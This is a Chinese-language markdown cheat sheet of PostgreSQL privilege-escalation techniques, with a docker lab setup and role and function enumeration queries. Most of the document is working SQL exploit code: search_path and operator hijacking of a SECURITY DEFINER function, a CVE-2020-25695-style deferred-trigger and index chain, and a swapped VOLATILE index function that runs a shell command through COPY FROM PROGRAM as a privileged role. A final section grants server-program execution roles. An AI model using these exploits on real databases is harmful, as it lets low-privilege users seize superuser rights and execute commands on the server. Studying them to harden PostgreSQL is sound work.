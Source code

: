 # postgresql权限提升总结

## 参考文章：

https://www.cybertec-postgresql.com/en/abusing-security-definer-functions/

https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/

https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql

## docker创建环境

```
docker pull postgres:10.0

docker run --name my_postgres -e POSTGRES_PASSWORD=123456 -d -p 5432:5432 postgres:10.0
```

## 信息收集涉及的语句

#### 用户组、用户

```
SELECT r.rolname AS role_name,
       CASE
           WHEN r.rolsuper THEN 'Superuser'
           WHEN r.rolcreaterole THEN 'Create role'
           WHEN r.rolcreatedb THEN 'Create DB'
           WHEN r.rolcanlogin THEN 'Can login'
           WHEN r.rolreplication THEN 'Replication'
           WHEN r.rolconnlimit!= -1 THEN 'Conn limit: ' || r.rolconnlimit
           WHEN r.rolpassword IS NOT NULL THEN 'Has password'
           WHEN r.rolvaliduntil IS NOT NULL THEN 'Valid until: ' || r.rolvaliduntil
           WHEN r.rolbypassrls THEN 'Bypass RLS'
           ELSE ''
       END AS attributes,
       ARRAY_AGG(rm.rolname) AS member_of
FROM pg_roles r
LEFT JOIN pg_auth_members m ON r.oid = m.roleid
LEFT JOIN pg_roles rm ON m.member = rm.oid
GROUP BY r.rolname, r.rolsuper, r.rolcreaterole, r.rolcreatedb, r.rolcanlogin, r.rolreplication, r.rolconnlimit, r.rolpassword, r.rolvaliduntil, r.rolbypassrls
ORDER BY r.rolname;
```

#### 函数

查看public下的函数

```
SELECT proname AS function_name,
       proargtypes AS argument_data_types,
       prorettype AS result_data_type,
       proisagg AS is_aggregate,
       proiswindow AS is_window_function
FROM pg_proc
WHERE pronamespace = (SELECT oid FROM pg_namespace WHERE nspname = 'public');
```

查看函数代码

```
SELECT pg_get_functiondef('public.sum'::regproc);
```

```
SELECT prosrc
FROM pg_proc
WHERE proname = 'sum';
```

## 高权限自定义函数问题

创建危险函数

高权限用户运行

```
CREATE FUNCTION public.harmless(integer) RETURNS integer
   LANGUAGE sql SECURITY DEFINER AS
'SELECT $1 + 1';
```

SECURITY DEFINER代表运行函数时会使用创建函数的用户的权限


低权限运行

```
CREATE FUNCTION public.sum(integer, integer) RETURNS integer
   LANGUAGE sql AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1 OPERATOR(pg_catalog.+) $2';

CREATE OPERATOR public.+ (
   PROCEDURE = public.sum,
   LEFTARG = integer,
   RIGHTARG = integer
);

SET search_path = public,pg_catalog;

SELECT public.harmless(41);
```

search_path的意思是 先去public寻找函数harmless函数

运行harmless时是高权限账号 导致INSERT INTO public.t1 VALUES (current_user);插入的是高权限账号

## 触发器漏洞

整体流程

高权限运行索引-调用sfunc（低权限）-插入t0（低权限）-调用触发器-调用strig-调用snfunc（高权限）

使用

autovacuum_vacuum_threshold、autovacuum_analyze_threshold完成自动化

```
CREATE TABLE t0 (s varchar);

CREATE TABLE blah (a int, b int);
INSERT INTO blah VALUES (1,1); -- 必须要插入数据


CREATE FUNCTION sfunc(integer) 
  RETURNS integer
  LANGUAGE sql IMMUTABLE AS
  'SELECT $1';

CREATE INDEX indy ON blah (sfunc(a));

/*
使用替换的函数绕过IMMUTABLE，IMMUTABLE的意思是同样的参数只运行一次 后面传入参数一样的情况下都不再运行
*/

CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t0 VALUES (current_user); SELECT $1';


CREATE TABLE t1 (s varchar);

-- create a function for inserting current user into another table

CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer
   LANGUAGE sql 
   SECURITY INVOKER AS
'INSERT INTO public.t1 VALUES (current_user); SELECT $1';

-- create a trigger function which will call the second function for inserting current user into table t1
CREATE OR REPLACE FUNCTION strig() RETURNS trigger 
  AS $e$ BEGIN 
    PERFORM snfunc(1000); RETURN NEW; 
  END $e$ 
LANGUAGE plpgsql;

/* create a CONSTRAINT TRIGGER, which is deferred
 deferred causes it to trigger on commit, by which time the user has been switched back to the
 invoking user, rather than the owner
*/
CREATE CONSTRAINT TRIGGER def
    AFTER INSERT ON t0
    INITIALLY DEFERRED 
    FOR EACH ROW
  EXECUTE PROCEDURE strig();

ALTER TABLE blah SET (autovacuum_vacuum_threshold = 1);
ALTER TABLE blah SET (autovacuum_analyze_threshold = 1);
```

## SQL注入 高权限创建的函数

高权限创建的函数

![QQ_1732160674745](https://github.com/user-attachments/assets/8cf643e5-35ed-4f6e-9856-aad0b3d5c054)

低权限执行

![QQ_1732160720976](https://github.com/user-attachments/assets/35974216-ded7-4977-a72d-54795fb5a617)

实际是高权限执行的是

```
INSERT INTO public.test3(data) VALUES(current_user);
```

## postgresql用户组

可以将表的owner给用户组

创建一个索引函数

然后执行刷新 触发索引

用户组权限执行索引函数

查看自己所在的用户组

```
CREATE TABLE temp_table (data text); 
CREATE TABLE shell_commands_results (data text); 
 
INSERT INTO temp_table VALUES ('dummy content'); 
 
/* PostgreSQL does not allow creating a VOLATILE index function, so first we create IMMUTABLE index function */ 
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text 
  LANGUAGE sql IMMUTABLE AS 'select ''nothing'';'; 
 
CREATE INDEX index_malicious ON public.temp_table (suid_function(data));

/*
自己要在cloudsqladmin这个role里面
*/
 
ALTER TABLE temp_table OWNER TO cloudsqladmin;
 
/* Replace the function with VOLATILE index function to bypass the PostgreSQL restriction */ 
CREATE OR REPLACE FUNCTION public.suid_function(text) RETURNS text 
  LANGUAGE sql VOLATILE AS 'COPY public.shell_commands_results (data) FROM PROGRAM ''/usr/bin/id''; select ''test'';'; 
 
ANALYZE public.temp_table; 

```

## grant权限提权

直接创建一个有权限的用户

pg_read_server_files
pg_write_server_files
pg_execute_server_program

```
CREATE USER james CREATEDB IN GROUP 
  pg_read_server_files,
  pg_write_server_files,
  pg_execute_server_program ROLE postgres;
```

